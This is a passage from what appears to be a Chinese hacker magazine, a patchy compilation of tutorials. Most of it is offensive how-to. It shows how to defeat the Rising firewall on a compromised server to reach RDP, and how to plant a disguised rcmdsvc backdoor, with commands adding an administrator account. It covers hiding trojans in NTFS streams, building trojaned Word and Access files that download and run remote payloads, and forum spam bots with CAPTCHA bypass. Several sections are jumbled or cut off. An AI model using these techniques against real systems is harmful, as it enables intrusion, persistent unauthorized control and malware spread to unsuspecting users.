在界面的右方，选择要加密的文件路径，然后编辑一下软件名称以及它的保护KEY，点击加密就可以了（图2）。加密成功后，我们会看到如图3所示的提示，这时会在同目录下生成加密好的文件。运行一下加密后的文件看看效果吧，程序自动弹出了一个要求注册的对话框（图4）。


下面再来介绍一下注册步骤，如果我们知道用户名和机器码的话，只需要打开PE_Admin，输入注册码以及注册用户名，再填写好我们当初设置的保护KEY，点击右边的那三个点，注册码就会在注册信息一栏中生成了（图5），我们只需将这个发给用户就可以了。


好了，这款软件到此就介绍完了。以后当我们编写出自己的程序时，就可以使用这个工具来加以简单的保护了。

（本文所涉及到的PE_Admin已收录到光盘中）

## 百度空间的美容妙计

### 巧取豪夺CSS

人浪漂漂天


最近听说百度空间在网上挺火的，再加上百度搜索引擎的支持，更是受到了很多网友的青睐。我看了好多百度博客，发现他们都是自定义CSS（层叠样式表）来使自己的博客主题变得有声有色。在浏览过他们的空间后，真是惭愧自己的空间光秃秃的，于是就想给自己的博客改良一下。

我从网上找了几个共享资源换上，果然空间访问量大增，但是使用别人的总觉得不爽，可自己编辑CSS又实在太累人了，我就想到了拿别人的来参照一下。

## 傻瓜黑客


图1

```html
/* CSS 源码片段（图4） */
BODY { BACKGROUND-POSITION: center 50%; BACKGROUND-ATTACHMENT: fixed; ... }
a { color:#F9E3F5; }
#header { height:150px; background:url(...) no-repeat top right; }
```

图4


图2

改观了呢？如果觉得已经满意了，那就直接点击图1中我们所选空间下面的“使用此模板”按钮，这华丽的外衣就穿在我们身上了，至此我们已经有了一套漂亮的 CSS 了。

能不能将别人的 CSS 占为己有呢？其实 CSS 表面上是不共享的，不过，我们还是有办法找到它的。我们先来看它的文件出处，在你的空间上点击右键选择“查看源文件”，就可以看到自己博客的源码了，CSS 的调用自然也在这里面（图2）。

在弹出的源码中找到（可以使用查找命令查找“<link rel”，查找到的第二个就是）：

```html
<link rel="stylesheet" type="text/css" href="/renlangliu/css/item/8e64ab9937e643086f068c4c.css">
<link rel="stylesheet" type="text/css" href="/space.css">
```

其中“href="/renlangliu/css/item/8e64ab9937e643086f068c4c.css"”就是你的博客当前调用的 CSS 文件地址，综合一下这个 CSS 的网址就是：http://hi.baidu.com/renlangliu/css/item/8e64ab9937e643086f068c4c.css。既然已经找到了偷取的地址，我们就可以下载了，打开迅雷新建一个下载任务，里面输入这个网址，点击前进后眨眼间就下载完毕了（图3）。

我们来看一下这个 CSS 文件（图4），作者已经在源码里加了注释。如果大家认为在记事本里看源码有些累，同样被标记成了黑色的边块，可以把源代码复制到空间里预览，就不会再看到那黑乎乎的东西。接下来可以登录空间点击前面的“设置”-“模板设置”-“创建新模板”，来创建一个新的 CSS，然后把别人的 CSS 源码直接复制进去（图5）。

可以看到图片指向的链接都是别人空间的链接或者是其它网站上素材的链接，这已经很清楚地表明了我们虽然使用了这套 CSS，但是当别人访问自己空间时也同时为这些空间刷了人气。如果把这些图片的链接地址设置为自己 QQ 空间上的图片地址（当然图片要合适），然后再放到网上供别人使用，那岂不是又成了一种刷 QQ 人气的好办法？就像我的空间每天至少都有 200 多个 IP 来访问，刷人气很快的；依此类推也可以刷网站的流量等等，反正随他便了，就连挂马也不是不可以啊。

（本文所涉及到的百度空间前十名 CSS 源码已收录到光盘中）


图5


图3

## 灌水无重


在06年第11期的杂志上，我们赠送了许多读者水晶链塑的空间，接着我们又在杂志上详细介绍了论坛的安装及设置。相信现在已经有许多读者都拥有自己的论坛了吧。不过，论坛可是要由别人来访问灌水才行的，那如何才能提高自己论坛的人气呢？可能大家也曾经到一些论坛上去发帖宣传自己的论坛，可都是既累人又没有什么效果。那能否让电脑来帮我们实现这样的目的呢？当然是可以的，答案就是论坛灌水机！

说到论坛灌水机就不得不提到极速论坛群发（FastSend）了，这个工具用起来爽极了，其支持的论坛包括 Discuz 论坛的所有版本，PHPWind 论坛的所有版本（图1）！

### 小知识

- 关键字1：如果想搜集所有和游戏相关的 PHPWind 论坛，可以使用“Powered by PHPWind”游戏，作为关键字。
- 关键字2：如果想搜集所有和电影相关的 Discuz 论坛，可以使用“Powered by Discuz!”电影，作为关键字。

### 第一步：填写关键字

在关键字里填入“Powered by Discuz! 4.1.0”，搜索引擎和连接超时选项使用默认的就可以了。点击下边的“收集”，不一会儿程序就可以搜索到很多 Discuz 论坛了（你可以把搜索出来的论坛网址保存下来方便以后再次群发），如图2。


### 第二步：填写将要发布的信息标题和内容

在“帖子标题”处写入：无敌小龙，帖子内容我们就写：test flood（测试帖子灌水）。需要注意的是标题不要太长，超过60个字符的标题很可能会发送失败（这要看对方论坛的设置）。然后我们就可以点开始发帖按钮了。

### 第三步：查看发帖结果

令人兴奋的时刻终于到了，如图3。右下方分成了两部分，上方为发送成功的链接，下方则是发送失败的链接，并给出了失败的原因。


### 小知识

- “http://bbs.5luto.com/ 注册：JnCYNh0 成功...”，这样的提示表示该程序自动注册用户并且成功。
- “http://bbs.5luto.com/ 板块:16 发送成功”，表示在该论坛的“id=10”的板块上发帖成功。
- 如果出现“...注册:KMJHnWd 成功(图形码)...”则说明论坛发帖要求图形验证码。

至于对验证码的识别，程序作者也提供了一个 Demo 版的测试小软件，在程序的顶部点击一下，会弹出一个对话框要求我们选择一个验证码图片（图4）。然后再选择验证码类型，最后点识别（图5），此程序的识别技术还是挺不错的。

## 傻瓜黑客

现在我们来看看程序发送的效果吧，如图6。


接下来要介绍的是“灌风论坛灌水机 Bankin 破解版”。首先需要注册一个用户，然后发一个帖子，找到刚才发的帖子，从提示中提取参数（如图8）。根据提示可得到论坛板块ID与帖子ID，将参数填入程序并设置发送间隔与发送方式，最后开始发送（如图9、图10）。


程序完成发送后，会生成一些工作日志：Post_ok.log（发送成功列表）、Post_error.log（发送失败列表）、ErrorMessage.htm（失败提示信息，可用 IE 查看原因）。


如果选择“一直发新帖”则不用填写帖子ID；勾选“所有版块都发帖”时程序会按规律填充板块ID，若论坛板块ID不规则则需手工填写。

在使用论坛工具进行宣传时，也会遇到论坛管理上的反制。一个常见办法是启用 E-Mail 激活注册用户；虽然会影响正常注册，但能过滤部分广告用户，可在后台清理未激活用户以降低影响。


我们打开 ErrorMessage.htm 查看发送失败原因。常见原因是论坛对发帖时间间隔有限制，一般约15秒；该工具对间隔控制不完善，但总体仍可用。

上面介绍的是针对 PHP 论坛的灌水工具；除 PHP 论坛外，还有大量使用 ASP 的论坛。


## 给个性涂上空白

五岳天

相信大家都用过 IE 浏览器，也有很多人都知道“About:blank”，打开它后会发现窗口里面是一片空白。不过久而久之，我就看它不顺眼了，白色多不好看啊，我们要追求个性，要把它改成其它颜色，甚至要让它显示我喜欢的任何内容！所以我们要先了解一下“About:blank”到底是什么东西。严格地说，这也是一个网址。有些读者可能会问，网址又称 URL，URL 的组成是由“协议名：资源名”组成的，我们见到的形如“http://www.baidu.com”的这种才是 URL 的啊。其实我们可爱的“About:blank”同学也是符合定义的，“About”是协议名，那么剩下的“blank”自然也就是资源名了。说了这么多抽象的东西，来点儿实际的吧。当我们在地址栏输入“About:blank”后，会看到一片空白（图1）。


图1

那么我们输入“about:green”来试试！还是一片空白，但是空白上面有一个“green”，嗯？怎么回事？再来输入“about:yellow”试试？一片空白上面多了一个“yellow”（图2）。


图2

看到这里，熟悉 HTML 语言的朋友可能有点明白了；在 htm 文件中输入文本（不加入任何标记语言），打开该 HTM 文件，显示的就是我们输入的内容；两者怎么这么像呢？直觉告诉我，这决不是偶然！于是再次在地址栏中输入“about:<a href=\"http://www.baidu.com\">www.baidu.com</a>”（图3）。


图3

发现了吧，这条语句的功能就是建立一个超链接，显示出来的结果很显然是执行了这条 HTML 语句。再试个更绝的：“about:”（图4），也执行成功了。那还等什么？赶紧回到一开始的目标吧，改置颜色，输入“about:<body bgcolor='#FF0000'></body>”，回车，哈哈，一片蓝色。单一的颜色太单调了，我们要个性化，放个图片吧，输入“about:<body background='file:///F:\10.jpg'></body>”（图5）。


图4


图5

注意，“file:///F:\10.jpg”是我 F 盘根目录下的一张名为 10.jpg 的图片，当然大家也可以改成硬盘的绝对路径，或者直接找网上的图片。

至此，我们个性化空白页的目的已经达成了，多种颜色的空白页，只需要将“color='#FF0000'”改成相应的颜色代码就行了，朋友来了也可以向他显摆一下了。

不过渐渐地，问题又出来了，怎么每次换颜色都要输入那么长的代码，一点儿也不专业！我们要简化输入。可是怎么简化呢？一旦破坏了 HTML 语句，就会无法达到目的了。既然不能从简化语句方面入手，那么就返回到开始的地方吧。“about”是协议名，后面的是资源名，那我们就从资源入手吧。建立一个红色背景的 html 文件，然后想办法让这个资源文件与协议“发生关系”，那不就 OK 啦？说干就干，首先建立一个红色背景的文件，取名 RED.HTM 存放在 C 盘上，那么怎么让它们建立联系呢？去注册表里看看吧，找到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\AboutURLs，里面有一个非常眼熟的家伙“blank”，它不就是在“about:”后面出现的资源名吗？建立一个新字符串值“red”，字符串值的内容写上“RED.HTM”文件的路径“file:///C:\RED.HTM”。试着在地址栏中输入“about:red”，显示出了 RED.HTM 文件的内容（图6），大功告成。


键可以定义“about”协议后面的资源名，那么我们能不能用这个来构建一个属于我们自己的超级网络实名呢？说干就干！建立字符串值，修改名称为“百度”，编辑键为“http://www.baidu.com”，再次在地址栏输入“about:百度”……（图9）


就在我高兴的时候，突然发现注册表中显示“blank”值的内容和我们建立的并不一致，而是“res://mshtml.dll/blank.htm”，这里面一定有鬼！于是搬出一员猛将“Reshacker”……选择我们建立的“red.htm”文件，资源类型填入“23”，资源名称“red.htm”，资源语言“2052”，单击添加（图7）。


其实写到这里，文章就应该结束了。不过脑子里有些想法想与各位大虾们分享一下，就是我们是不是可以对“空白页”的利用多一些……只要打开 IE 的空白页，就会再次中我们的木马了。

不过在保存的时候发现文件无法保存，提示错误。难道我们这一切都白做了吗？不，不能放弃……在地址栏输入“about:red”（图8），显示正常。至此，超级个性化空白页就彻底大功告成了。

### 瑞星防火墙规则文件破解文


我在人侵的时候碰到对方服务器上安装了瑞星杀毒软件、瑞星防火墙的情况非常多，经常是我打开了服务器的远程桌面却登录不上去，即使是使用工具把端口转发出来，这些工具也会被瑞星的防火墙给拦截……


## 傻瓜黑客


点导出规则，在保存类型里可以看到规则文件是以 `.fwr` 为后缀的文件。打开 CMD 命令提示符进入瑞星安装目录，查找 `.fwr` 后缀的所有文件（图3）。

DefRL.fwr、DefRM.fwr、DefRH.fwr、RsRule.fwr、RsMod.fwr，那么哪些是我们能够利用的呢？现在关掉防火墙，结束相关防火墙进程，把所有 `.fwr` 文件剪切到 `E:\FWR\`，并在该目录新建 `Update` 子目录，再把安装目录下 `Update` 中的 `.fwr` 文件剪切过去，然后打开防火墙设置 IP 规则（图4）。


看见了吧，什么规则都没有了，我们来增加个规则。名称里输入“LAN 安全访问规则”，在“规则匹配成功后的动作”里选择“放行，允许数据包通过”（图5）。在“本机地址”里选择“所有地址”，在“对方地址”里选择“任意地址”（图6）。下一步在“协议类型”里选择“TCP”，“对方端口”“本地端口”均可设为任意端口或指定范围（图7），最后完成添加规则。

下边是本文的重点：瑞星默认 IP 规则文件是 `UserRule.fwr`，默认访问规则文件是 `AppRule.fwr`。从目标机器上获取这两个文件后，在防火墙 IP 规则里点击“导入规则”，选择对应文件，此时会弹出确认对话框（图8），否则会把刚才新建规则删除（图9）。

`E:\Program Files\Rising\Rfw` 目录里是 9 个规则文件：DefRL.fwr、DefRM.fwr、DefRH.fwr、RsRule.fwr、RsMod.fwr、UserRule.fwr、AppRule.fwr、GameRule.fwr、TrtRule.fwr；`E:\Program Files\Rising\Rfw\Update` 目录里是 5 个规则文件。


看见了吧，我们建的规则在第一位，这样就保证了新建规则有优先权。再点“访问规则”-“增加规则”-“浏览”，选择 `c:\winnt\system32\termsrv.exe`（远程桌面服务进程），在“常规模式”里选择“放行”（图10）。


下一步选择“全部放行”，最后点“完成”（图11）。


exe改名99rfwmain.exe，然后重启肉鸡，这要看肉鸡的管理员在不在线，最好是在晚上夜里进行，怎么重启肉鸡呢？在你得到的 CMD 下（或者有注入漏洞的在注入工具的执行 CMD 命令里），输入 `iisreset.exe /reroot`，肉鸡就会重新启动（iisreset.exe 用法还有很多，如图14）。


再点“导入规则”，选择从肉鸡上下载回来的访问规则默认文件 AppRule.fwr，这时候还会弹出一个对话框，按上面操作点否，我们新建的访问规则还是在第一位上（图12、图13）。

到这里本机的工作算是做完了，接下来就是把 UserRule.fwr 和 AppRule.fwr 规则文件上传到肉鸡的瑞星防火墙安装目录里去。如果防火墙在开启的情况下替换这两个文件有时候防火墙会挂掉，想办法把防火墙停掉后再复制进去，再启动防火墙。我用 nt 还停止不了 rfwsrv.exe 进程，显示拒绝访问。我的办法是先把 rfwsrv.exe 改名为 99rfwsrv.exe，再把 rfwmain.exe 改名 99rfwmain.exe。

肉鸡重启后防火墙就关闭了，我们把 UserRule.fwr 和 AppRule.fwr 规则文件上传到肉鸡的瑞星安装目录下，再把 99rfwmain.exe 和 99rfwsrv.exe 改回 rfwmain.exe、rfwsrv.exe，启动防火墙 `net start rfwservice`，就可以登录肉鸡的3389了。

## 轻松拥有“合法”的Windows后门


当我们花费一番周折入侵远程服务器后，最好的控制方法就是为其安装各种后门或木马程序，例如 Radmin、灰鸽子等，不过这些木马因为名声太大了，很容易被管理员发现并清除。实际上，我们完全可以在肉鸡上建立完全“合法”的后门。

在 Windows 2000 资源包中包含了一个名为“rcmdsvc.exe”的小工具，它是用来开启“Remote Command Service”服务的，该服务开启的是445端口，与 Windows 2000 的 Microsoft-DS 服务使用的端口完全相同。因为“Remote Command Service”服务是微软提供的，因此任何杀毒软件都不会对其进行查杀，即使利用 fport 或 Active Ports 等专业工具，都不能显示列出其监听的网络端口。因此当我们入侵远程服务器后，就可以利用“rcmdsvc.exe”程序开启完全“合法”的后门，从而可以用更加隐蔽的方式对其进行控制。本文将分析“rcmdsvc.exe”程序的安装和使用方法，同时介绍如何将其伪装成其它正常的服务。

### 一、安装“合法”后门

### 二、伪装服务


在本机上，我们利用 rcmd.exe 程序和服务器建立连接。在客户机的 CMD 窗口执行命令 rcmd，在系统弹出的“Enter Remote Name”处输入远程主机的 IP 地址，然后 rcmd.exe 就会和远程主机建立连接，我们就可以自由地在其上执行各种命令了。在弹出的“Remote Command”窗口中依次执行命令 `net user hacker 123456 /add`、`net localgroup administrators hacker /add`，就会在服务器上建立一个名为 hacker、密码为 123456 的账户了。

在远程主机中直接开启“Remote Command Service”服务，会引起管理员的警觉，因此需要对其进一步“伪装”，将其替换为其他正常的系统服务，让后门更加隐蔽。这就需要把 sc.exe 这个编程系统服务的“瑞士军刀”用上了。系统中的 Messenger 服务是无关紧要的，所以我们就将“Remote Command Service”服务替换为 Messenger 服务。在 CMD 窗口中执行命令 `sc delete Messenger`，删除 Messenger 服务。在进行服务替换之前，需要执行命令 `net start rcmdsvc`，对其进行重新启动。接着分别执行命令 `sc config rcmdsvc DisplayName= Messenger`、`sc description rcmdsvc 传输客户端和服务器之间的 NET SEND 和 Alerter 服务消息`，这样就可以让新的 Messenger 服务看起来更加合法了。操作完成后，再次执行 `net start rcmdsvc` 命令，重新启动 rcmdsvc 服务即可。

> （本文所涉及到的 rcmdsvc 和 rcmd 已收录到光盘中）

## 深挖猛掘 NTFS 文件流（ADS）的利用


工藤柯南（独行任逍遥）

### 一、隐藏信息

在任一 NTFS 分区下打开 CMD 命令提示符，输入 `echo abcde>>a.txt:b.txt`，则在当前目录下会生成一个名为 a.txt 的文件，但文件大小为 0 字节，打开后也没有内容。如图1，只有当我们键入命令 `notepad a.txt:b.txt` 才能看见写入的 abcde，如图2。

在上边的命令中，a.txt 可以不存在，也可以是某个已存在的文件，文件格式无所谓，无论是 .txt 还是 .jpg、.bmp、.exe 都行；b.txt 也可以任意指定文件名以及后缀名。这样就可以将任意文本信息隐藏于任意文件中，只要不泄露冒号后的虚拟文件名（即 b.txt），别人是根本不会查看到隐藏信息的。并且，在已经使用 NTFS 文件流制造了隐藏信息后，包含隐藏信息的文件仍然可以继续隐藏其他内容。例如 abcde 已经包含在 a.txt:b.txt 中，我们仍然可以使用命令 `echo 12345>>a.txt:c.txt` 建立新的包含隐藏信息的流文件，在命令行下使用 `notepad a.txt:c.txt` 打开后会发现 12345 这段信息，而 abcde 仍然存在于 a.txt:b.txt 中，丝毫不受影响。


### 二、隐藏文件

我们要使用到的命令跟上面的大同小异，命令格式为 `type 文件名+后缀>>任意文件:任意文件名+原文件后缀`。比如 `type 1.jpg>>abc.def:2.jpg`，就是将 1.jpg 的内容写入到 abc.def:2.jpg 这个流文件中。abc.def 可以随便换，最好是使用正常的文件，这样隐蔽性会更强，如图3。

打开隐藏文件时还要注意，如果用来打开文件的程序是系统自带的（位于系统目录下），直接输入程序名就可以了；但如果是使用另外的软件打开，就要加上完整路径，且流文件也要带上完整路径。例如使用画图工具打开 abc.def:2.jpg，命令格式应该是 `mspaint abc.def:2.jpg`；而如果使用 ACDSee9 打开，命令格式就应该是 `D:\ACDSee9\ACDSee9.exe D:\abc.def:2.jpg`。

注意上述的 2.jpg，后缀最好跟原文件一致；不然使用第三方软件打开时可能会出错。比如 `type 1.jpg>>abc.def:2.jjj`，使用 Windows 自带的画图工具可以顺利打开，但使用 ACDSee9 打开时会提示数据格式不可识别，必须改成 .jpg 后缀才可以打开，如图4。


同理，其他文件也可以这样隐藏，只要打开时根据后缀名找对应的程序就行了，而且也可以像隐藏信息那样隐藏多个文件。

### 三、捆绑木马

仍然是使用上面隐藏文件的方法，运行的命令格式为 `start 流文件路径`，需要带上完整路径，不然会提示参数不正确，如图5。


图5

### 四、注意事项

- 流文件不能直接通过网络传输，也不能使用 WinRAR 进行普通压缩后传输，需要在压缩时选择“保存文件流数据”（如图6）。
- 制作好的流文件大小与被隐藏原文件一致，但压缩后仍包含隐藏文件大小，这说明 NTFS 文件流并不占用磁盘空间，可通过解压后文件大小与压缩包大小对比判断。
- 流文件必须在 NTFS 分区下运行，放到其他文件系统分区再拷回会造成 NTFS 数据流丢失。


图6

其实，关于 NTFS 文件流的使用，在以前的《黑客 X 档案》上也曾经介绍过，本文将常见利用方式做了整理，希望给菜鸟带来更多思路。

## 木马迎宾 Office

踏雪无痕，Ande，寇

曾经有朋友问是否可以把一个 `.exe` 文件藏在一个 JPG 文件中，这样点击图片时可执行。思路不错，但实际直接实现较难；同时即时通信环境下对可执行附件拦截严格，直接传输 exe 文件通常不可行。本文介绍如何在 Office 文档中“藏马”，让木马更易传播。

主角是 Office 全版溢出系列捆绑工具。压缩包中包含说明、内存注册补丁及多个工具文件。`DocExp.XPSP.v1.02++.exe` 与 `DocExp.03SP.v1.03++.exe` 功能基本一致，分别对应 Word 2002 与 Word 2003。

### 一、DOC 木马的制作

首先运行补丁文件（如图2），根据程序要求在内存补丁中选择对应项并“补上”。随后回到 `DocExp.03SP.v1.03++.exe` 的界面，点击“确定”并开始配置。

在“本地的可执行文件”处指定已配置好的木马程序；在“输入 Word 文档(DOC)”处指定正常 DOC 文件；在“输出 Word 文档”处指定生成路径，点击“确定”后即可生成包含可执行文件的 DOC 文档（如图3）。


图2


图1


图3

来到桌面运行一下我们刚才生成的 DOC 文档。打开这个文件时和普通 DOC 文件的运行没什么区别，当文档被打开后，会在后台隐藏运行其中的木马文件，如图4，Bootvis 运行了。


图4

下面我们再来说说 `DocExp.All.v2.04.exe` 这个工具，它则为我们提供了更为强大的 DOC 木马制作功能（如图5）。大家从图5中已经看到了这个工具的通用范围很广，几乎涵盖所有的 Word 版本，而且它有两种 DOC 木马生成方式：本地和远程。


图5

勾选“本地的可执行文件”项，可使用本地方式生成木马，指定本地木马路径。和我们刚才说的不同的是，这个工具不再专门指定已有的 DOC 文档，可直接在下方的“文档内容”中输入 DOC 文档内容；设置木马生成路径，点击“确定”按钮即可生成木马。

如果勾选“远程自动下载链接”项，可使用远程方式执行木马。首先需要将木马上传到网站空间中，在“URL”中输入木马下载地址；在“加入 WORD 文档”中，可指定本地一个正常的 DOC 文档，也可以使用 URL 方式链接一个远程的 DOC 文档。最后指定木马保存路径，点击“确定”按钮即可生成 DOC 木马。

> **注意：**该工具不但适用范围特别广，而且木马文件由于不需要使用 DOC 文档寄宿，因此生成的文件体积较小，更具有迷惑性（但受对手捆绑的木马文件大小限制，大约不能超过 34119 个字节）。而且使用远程方式生成 DOC 木马文档，在打开时会自动在后台下载并运行捆绑链接的木马，适合经常更新木马服务端的情况。


### 二、数据库木马的制作

运行工具包中的 `MdbExp.All.v1.04.exe`，如图6，指定要运行的木马程序，设置木马保存路径，点击确定，就可生成一个 MDB 格式的木马文件了。过程非常简单，但是此工具对木马程序的文件大小有限制，不能超过 50K。


图6

以前大家比较常用的防范数据库下载的方法有：更改数据库文件扩展名、在数据库文件名中加入如“#”等特殊字符、在数据库中建一个 NODOWNLOAD 表等等。现在，我们在改掉默认数据库路径或文件名之后，还可以再新建一个以默认名为名的 MDB 文件，使用我们刚才说过的方法绑定一个木马，呵呵，让别人尽情地去下载吧……

关于 Office 文件隐藏木马的方法也就要告一段落了。Office 格式的文件，很多人对它都是很放心的，谁会想到这里面也会藏着这么危险的东西呢？而且使用杀毒软件进行检查也是很难检测出文件捆绑了木马的！因为此木马的运行方式与普通的宏病毒不同，不需要使用宏，所以在任意 Word 安全等级设置下都可以正常执行。并且可借助 QQ、MSN 之类的通讯工具进行传播，危害较大。以后，当大家再次收到不明的 Office 文档时一定要小心了！

虽然 Office 木马的危害程度较高，但是也不用太过害怕，防范的方法还是有的，打上一个 Office 安全更新（KB920821）补丁即可（补丁下载地址为：http://www.microsoft.com/downloads/details.aspx?familyid=b26adc3c-1db8-46fd-8381-b199ee35e7c&displaylang=zh-hk）。

### 三、后记

我在测试的过程中也发现了一些小问题，在此写出来和大家分享，可以帮助我们初步判断 Office 文件的安全性。

- 用上述工具生成的木马文件，虽然可以和正常文件一样运行，但是在打开后一小会儿，Office 文档就会自动关闭。如果你遇到了这种情况就要注意了。
- 根据经验，判断一些文件的大小，从而粗略判断文件的安全性。比如你下载到一个网站的数据库，一般大小小于 50K 就得考虑一下了，因为一般网站的数据库都会比这个大，甚至大很多。
- 当我写完稿件时，使用升级到 2007 版（19.01.42）的瑞星对以上工具所生成的木马进行查杀，发现瑞星可以查杀 `DocExp.XPSP.v1.02++`、`DocExp.03SP.v1.03++` 这两个工具所生成的木马，但对于 `DocExp.All.v2.04.exe` 和 `MdbExp.All.v1.04.exe` 所生成的木马仍然无法查杀。所以大家务必尽快打上微软提供的安全补丁。

（文章中涉及到的工具、Office 全版本系列捆绑工具已经收录于光盘中）

## 小小菜鸟架论坛

### 玩转 PHP 论坛


在以前的《黑客 X 档案》中，许多大侠在写文章的时候总是说先在本地搭建一个测试环境，然后再去分析程序里是否存在漏洞，但搭建环境的过程与步骤都一笔带过，这让菜鸟们根本就无从下手……

为了在我的 XP 爱机上搭建好一个支持 PHP 程序的环境，我到处搜索资料，经过一番努力，终于搭建好了，并且成功安装了一个 PHP 论坛，下面就来看看小菜我是怎么做到的吧！

你的状态栏里出现“服务已启动”的图标，这表示 Apache 服务已经正常运行，如图2。现在我们就来测试一下，在浏览器中输入 `http://localhost/`，如果出现如图3所示的页面，就说明 Apache 安装成功了。


### 一、准备工作

俗话说“千里之行，始于足下”，做任何事情都得先做好准备工作，所以我们先要把需要的软件都下载下来。Apache、PHP 和 MySQL 是必不可少的，论坛就选用 phpwind 吧……

### 二、安装软件

第一步：先来安装 Apache。双击 Apache 软件包即可进入安装向导，然后点击 Next 进入到协议许可界面，选择 “I accept the terms in the license agreement”，继续点击 Next，随后配置服务信息……


接下来的安装方式选择 Typical 方式安装，然后就进入到选择安装路径的界面。我们更改一下路径，让它安装到 `C:\Apache`，然后继续，最后点击 Finish 即可完成 Apache 的安装。

第二步：安装 PHP。其实 PHP 是不需要安装的，直接解压即可，我们把它解压到 `C:\php` 下。

第三步：安装 MySQL。我下载的是一个免安装版本，解压到 `C:\mysql` 目录下，然后对 MySQL 进行一些设置。在命令提示符下进入 mysql 下的 bin 目录。由于是免安装的，我们需要手动把 MySQL 安装为服务。


```bash
mysqld-nt --install
net start mysql
net stop mysql
mysqladmin -u root -p password <新密码>
```

如果命令回显 `Service successfully installed`，就表示服务安装成功了。第一次启动 MySQL 服务可能会出现提示信息。此时 MySQL 默认密码为空，为了安全建议立即修改成复杂密码。

### 三、搭建环境

首先修改 Apache 的配置文档，使之能够解析 PHP。先停止 Apache 服务，修改完后再启动。在 `C:\Apache\conf` 目录下找到 `httpd.conf`，用记事本打开并搜索相关配置项。

```apache
#LoadModule ssl_module modules/mod_ssl.so
LoadModule php5_module c:/php/php5apache2_2.dll
AddType application/x-gzip .gz .tgz
AddType application/x-httpd-php .php
```

接下来设置 PHP。在 `C:\php` 目录下找到 `php.ini-dist`、`php5ts.dll` 等文件，按需重命名和配置，完成环境搭建。

复制到 `C:\Windows` 目录下，并且改名为 `php.ini`，把 `php5ts.dll` 复制到 `C:\Windows\System32` 目录下。接着在 `C:\php\ext` 目录下找到 `php_mysql.dll` 这个文件，把它也复制到 `C:\Windows` 目录下。然后在 `C:\Windows` 目录下找到刚才复制过来的 `php.ini`，使用记事本打开，找到如下代码：`extension=php_mysql.dll`，去掉其前面的分号。最后保存，这样环境就算搭建好了。

### 四、安装论坛

环境搭建好了，下面我们就来安装论坛。在 D 盘建立一个 phpwind 目录，然后把 phpwind 论坛压缩包内 upload 目录下的文件全部解压到 `D:\phpwind` 目录下。我们再次修改 `httpd.conf` 文件，主要是修改网站路径为 `D:\phpwind`。使用记事本打开，分别找到如下代码：

```
DocumentRoot "C:/Apache/htdocs"
<Directory "C:/Apache/htdocs/">
DirectoryIndex index.html
```

然后把前两句中的 `C:/Apache/htdocs` 替换为 `D:/phpwind`，在后一句后面添加一个 `index.php`（或将 `index.html` 改为 `index.php`），保存后启动 Apache 服务。在浏览器中输入 `http://localhost/install.php`，就会出现论坛安装页面，如图7。


选择同意，接着会来到服务器配置页面。数据库服务器可填写 localhost 或 127.0.0.1（或你的 IP），数据库用户名为 root，数据库密码可用示例 123456，数据库名可任意填写，表分区符号默认，然后在下面的创始人资料里填写管理员信息，如图8。

点击开始安装，接着会进入到如图9所示的页面，这样表示配置信息填写正确，然后点击继续安装。按照后两步提示就可以完成安装。安装完成后在浏览器中输入 `http://localhost/` 就可以进入论坛主页，如图10。


如果你的 IP 地址是公网 IP，直接设置就可以使你的朋友们访问到你的论坛；如果是内网 IP 的话，就需要做端口映射，映射可以在路由器上做，也可以找公网 IP。论坛建好后别忘了注意安全。

（本文所涉及到的 apache_2.2.3、php-5.2.0、mysql-5.0.22 和 phpwind5.0.1 已收录到光盘中）

> 读编互动栏目：包含读者来信与编辑回复内容（版面为装饰性边框文字区）。

## 教菜鸟一分钟“黑”掉 Baidu 和 Google

无敌小龙

对于混迹网络江湖的小菜们来说，最大的梦想莫过于自己能够发现安全漏洞黑掉对方的网站，特别是像 baidu、google 或 163、sina 这样的大型网站，那样的话就厉害了，别人对自己一定会刮目相看的。我们今天就拿百度来开刀，让每个小菜都可以轻松将“黑”掉它们，如图1！


哇，百度被黑掉了呀！这是如何实现的呢？难道又是修改 Host 文件吗？当然不是。我们以 ping 一下 baidu.com 来证明一下，如图2。


我们可以清楚地看到 ping 出来的 www.baidu.com 的 IP 地址是 220.181.27.48，而并非指向的 127.0.0.1，也就是说没有指向本机的 IP 地址。那么，难道是利用了某个未公布的漏洞吗？也不是，我们利用的就是 IE 恶搞迷 V1.0 这个小工具。

首先，我们打开 IE，在地址栏中输入目标网站的网址 www.baidu.com，运行 IE 恶搞迷 V1.0，按下最左上角的那个放大镜图标，然后拖动到目标网站的页面上（注意是页面上，也就是显示 HTML 页的地方，而不是拖放到 IE 的标题上），工具会自动将目标网站的 HTML 源代码显示在下面的文本框中（图3）。


接下来就是小菜们一展身手的时候了！把文本框中多余的代码去掉，注意去掉的是：

```html
<BODY text=#000000 vLink=#0000cc aLink=#ff6600 link=#0000cc onload=document.f.wd.focus()>
...
</BODY>
```

之间的所有代码（如果全部去掉再修改，可能会无法成功），然后在中间填入我们自己想要展示的“文字宣言”，比如“百度，想说黑你不容易！”，如图4。我们再来看“可怜”的 baidu，已经成功被我们“黑”掉了（图5）！


## 由“工行被黑”引发的思考

奇迹天使

前日在 QQ 群中有人发了个网址“http://www.icbc.com.cn/news/hotspot.jsp?column=%C1%F4%C3%FB”，说是工商银行网站被黑。这年头，网站被黑就像是家常便饭，本来没什么兴致的，可不经意间看到网址最后部分居然是“hotspot.jsp?column=%C1%F4%C3%FB”，感觉有点儿奇怪。column 后面的是一串 URL 编码，虽然我没有学过 JSP，但是学 ASP 也有一段时间了，对于这样一个地址，还是明白一二的。column 是 hotspot.jsp 文件中的一个变量，而这个变量是可以直接通过 URL 赋值的，column 这个变量的作用应该是指定栏目名称。我抱着学习的态度打开这个黑页面看了看，发现在页面中间显示标题地方显示成了“留言”。疑问更大了，以往高手们黑站都是挂一个黑页上去，怎么现在只是改了页面中的标题？于是我把目光再度集中在了“hotspot.jsp?column=%C1%F4%C3%FB”，既然是通过 URL 给变量 column 赋值，那么“=”号后面的就是赋的值内容了。于是搬出 URL 编码转换器，将“%C1%F4%C3%FB”转换回来，发现正是“留名”两个字！心中的疑团顿时豁然开朗了。

